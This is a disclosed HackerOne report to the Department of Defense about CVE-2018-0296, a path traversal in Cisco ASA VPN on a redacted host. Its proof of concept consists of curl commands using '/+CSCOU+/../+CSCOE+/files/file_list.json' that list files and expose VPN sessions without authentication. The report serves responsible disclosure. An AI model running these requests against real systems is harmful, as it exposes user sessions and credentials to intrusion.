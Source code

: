 # [CVE-2018-0296] Cisco VPN path traversal on the https://███████/ (██████)

## Report Details
- **Report ID**: 695776
- **URL**: https://hackerone.com/reports/695776
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-09-16T16:34:00.552Z
- **Disclosed**: 2024-07-19T14:24:13.760Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Description
I discovered previously unidentified instance https://████/ (███████) in ██████████ network, vulnerable to the CVE-2018-0296 (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-0296)


##POC
```
curl -i -k "https://████████/+CSCOU+/../+CSCOE+/files/file_list.json" --path-as-is
```
███

We can disclose user sessions by quering /sessions:
```
curl -i -k "https://████/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
```


##Suggested fix
Updating to the latest version should fix the issue. Fixed version should give 404 "File not found" error.
Example of patched version:
```
curl -i -k "https://█████████.███████.mil/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
```

##Notes
In case you experience request timeout when reproducing, try to change your IP/VPN.

## Impact

Path traversal, which can allow the unauthenticated attacker disclose sensitive information such as VPN sessions, files, usernames. Under some conditions it's possible to cause DOS attacks

## Attachments
No attachments

